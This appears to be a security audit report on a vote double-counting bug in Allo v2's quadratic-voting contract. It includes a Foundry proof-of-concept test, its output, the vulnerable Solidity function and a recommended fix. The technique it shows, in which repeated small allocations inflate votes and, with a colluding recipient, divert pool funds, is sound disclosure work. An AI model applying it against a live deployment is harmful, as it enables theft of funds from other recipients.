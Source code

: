 Dandy Arctic Buffalo

high

# Double-counting past voice credits permits allocators to manipulate distribution of funds in quadratic voting allocation strategies
## Summary
Voice credits, which translate to votes for eligible fund recipients, are double-counted when an allocator calls the `allocate()` function repeatedly for the same recipient. This allows inflating the vote count for selected recipient(s) to skew the distribution of funds.

## Vulnerability Detail
The [QVBaseStrategy.sol](https://github.com/allo-protocol/allo-v2/blob/main/contracts/strategies/qv-base/QVBaseStrategy.sol) contract uses designated "allocator" accounts to distribute an allotment of "voice credits" among candidates, those credits translate to votes via a square root calculation, and the proportion of votes per recipient determines the share of funds that each eligible ("accepted") recipient receives from the funding pool.

Per the quadratic voting formula, the votes allocated to a recipient should be $\sqrt{vc}$ where `vc` is the number of voice credits allocated to that recipient. For a single call to `allocate()`, that holds true. But, if an allocator calls `allocate()` repeatedly for the same recipient, it is not true. Instead, the recipient gets $\sqrt{vc + vc'}$ where `vc'` is the number of voice credits previously allocated by the same allocator to the same recipient. So, repeated calls to `allocate()` can effectively double the previous credits on each call.

**Proof of Concept**
Modification of [this test function](https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/test/foundry/strategies/QVBaseStrategy.t.sol#L670) that allocates 7 voice credits, one at a time:
```solidity
   function test_allocate() public virtual {
        address recipientId = __register_accept_recipient();
        address allocator = randomAddress();

        vm.startPrank(pool_manager2());
        vm.warp(allocationStartTime + 10);

        bytes memory allocateData = __generateAllocation(recipientId, 1);
        vm.stopPrank();

        vm.startPrank(address(allo()));
        for (uint i = 1; i <= 7; i++) {
            qvStrategy().allocate(allocateData, allocator);

            QVBaseStrategy.Recipient memory r = qvStrategy().getRecipient(recipientId);
            console.log(r.totalVotesReceived);
        }
    }
```
`forge test --match-path *QVBaseStrategy.t.sol --match-test test_allocate -vv`
```solidity
Running 1 test for test/foundry/strategies/QVBaseStrategy.t.sol:QVBaseStrategyTest
[PASS] test_allocate() (gas: 420592)
Logs:
  1000000000
  1414213562
  2000000000
  2828427124
  4000000000
  5656854249
  8000000000
```
(The vote values are scaled by 10^9 because the [voice credits get scaled up by 10^18](https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/contracts/strategies/qv-base/QVBaseStrategy.sol#L522) for the square root calculation.) 
After allocating 7 voice credits the number of votes received is $\sqrt{1+63} * 10^9$ but it should be $\sqrt{7} * 10^9$ as found after adding the fix that is recommended below:
```solidity
Running 1 test for test/foundry/strategies/QVBaseStrategy.t.sol:QVBaseStrategyTest
[PASS] test_allocate() (gas: 419588)
Logs:
  1000000000
  1414213562
  1732050807
  2000000000
  2236067977
  2449489742
  2645751311
```

## Impact
An allocator can inflate their vote by allocating voice credits individually and unduly influence the payout distribution to recipients. A sybil attack where the attacker uses 2 accounts to act as an accepted recipient and as an allocator (or collusion between an accepted recipient and allocator), can swing the vote and payout distribution in favor of the attacker(s), and thereby steal funds from all other accepted recipients.

## Code Snippet
[QVBaseStrategy._qv_allocate() function](https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/contracts/strategies/qv-base/QVBaseStrategy.sol#L499-L534) double-counts voice credits previously allocated to same recipient:
```solidity
/// @notice Allocate voice credits to a recipient
    /// @dev This can only be called during active allocation period
    /// @param _allocator The allocator details
    /// @param _recipient The recipient details
    /// @param _recipientId The ID of the recipient
    /// @param _voiceCreditsToAllocate The voice credits to allocate to the recipient
    /// @param _sender The sender of the transaction
    function _qv_allocate(
        Allocator storage _allocator,
        Recipient storage _recipient,
        address _recipientId,
        uint256 _voiceCreditsToAllocate,
        address _sender
    ) internal onlyActiveAllocation {
        // check the `_voiceCreditsToAllocate` is > 0
        if (_voiceCreditsToAllocate == 0) revert INVALID();

        // get the previous values
        uint256 creditsCastToRecipient = _allocator.voiceCreditsCastToRecipient[_recipientId];
        uint256 votesCastToRecipient = _allocator.votesCastToRecipient[_recipientId];

        // get the total credits and calculate the vote result
        uint256 totalCredits = _voiceCreditsToAllocate + creditsCastToRecipient;
        uint256 voteResult = _sqrt(totalCredits * 1e18);

        // update the values
        voteResult -= votesCastToRecipient;
        totalRecipientVotes += voteResult;
        _recipient.totalVotesReceived += voteResult;

        _allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
        _allocator.votesCastToRecipient[_recipientId] += voteResult;

        // emit the event with the vote results
        emit Allocated(_recipientId, voteResult, _sender);
    }
```

## Tool used

Manual Review

## Recommendation
Change [this line of QVBaseStrategy._qv_allocate()](https://github.com/allo-protocol/allo-v2/blob/851571c27df5c16f6586ece2a1cb6fd0acf04ec9/contracts/strategies/qv-base/QVBaseStrategy.sol#L529) function from
```solidity
_allocator.voiceCreditsCastToRecipient[_recipientId] += totalCredits;
```
to
```solidity
_allocator.voiceCreditsCastToRecipient[_recipientId] += _voiceCreditsToAllocate;
```
Alternatively, add `totalCredits -= _voiceCreditsToAllocate;` prior to that to parallel the adjustment made to `voteResult` that prevents double-counting past votes.